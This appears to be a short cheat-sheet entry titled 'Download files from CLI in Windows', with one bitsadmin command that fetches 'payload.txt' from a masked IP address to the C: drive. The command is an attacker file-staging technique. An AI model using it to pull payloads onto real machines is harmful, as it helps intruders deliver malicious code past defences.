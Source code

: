 Download files from CLI in Windows
------------------------------------
bitsadmin /transfer wcb /priority high https://xxx.xxx.xxx.xxx/payload.txt C:\payload.txt

